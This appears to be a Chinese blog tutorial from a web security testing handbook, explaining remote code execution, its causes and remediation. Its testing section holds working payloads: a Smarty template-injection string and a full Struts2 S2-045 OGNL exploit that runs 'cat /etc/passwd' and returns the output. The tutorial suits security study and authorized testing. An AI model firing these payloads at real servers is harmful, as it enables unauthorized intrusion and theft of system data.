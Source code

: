 ```yaml
---
layout: post
title:  "《Web安全测试学习手册》- 远程代码执行"
date:   2018-03-22
categories: Web安全测试学习手册
permalink: /archivers/2018-03-22/1
description: "《Web安全测试学习手册》- 远程代码执行"
---
```


《Web安全测试学习手册》- 远程代码执行
<!--more-->

## 0x00 远程代码执行 - 介绍

### 1）什么是远程代码执行
 
远程命令执行 英文名称：**RCE remote code execution** ，简称**RCE**漏洞，是指用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令，可能会允许攻击者通过改变 $PATH 或程序执行环境的其他方面来执行一个恶意构造的代码。

### 2）远程代码执行的特点

远程代码执行是指攻击者可能会通过远调用的方式来攻击或控制计算机设备，无论该设备在哪里。

## 0x01 远程代码执行 - 风险等级

**高**

## 0x02 远程代码执行 - 原理

由于开发人员编写源码，没有针对代码中可执行的特殊函数入口做过滤，导致客户端可以提交恶意构造语句提交，并交由服务器端执行。命令注入攻击中WEB服务器没有过滤类似system(),eval()，exec()等函数是该漏洞攻击成功的最主要原因。

## 0x03 远程代码执行 - 常见场景

* 使用了危险函数的Web应用
* 低版本的Java语言Struts框架

## 0x04 测试方案

### PHP中常见场景 - 模板引擎代码执行

Smarty简介

> Smarty是一个PHP的模板引擎。更明确来说，它可以帮助开发者更好地 分离程序逻辑和页面显示。最好的例子，是当程序员和模板设计师是不同的两个角色的情况，而且 大部分时候都不是同一个人的情况。
> 
> CVE-ID : CVE-2017-1000480



由于未对用户的输入点进行过滤，导致经过eval函数，造成代码执行

测试Payload：


```
*/phpinfo();/*
```



![0x00](http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-04-16/0x00.png)

### Java Struts2 （S2-045）

由于未对用户输入点进行过滤，被带入ErrorMessage，当做OGLN表达式解析，造成代码执行

测试Payload：

```
%{(#nikenb='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cat /etc/passwd').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

![0x01](http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-04-16/0x01.png)

## 0x05 修复方案

升级插件、框架新版本
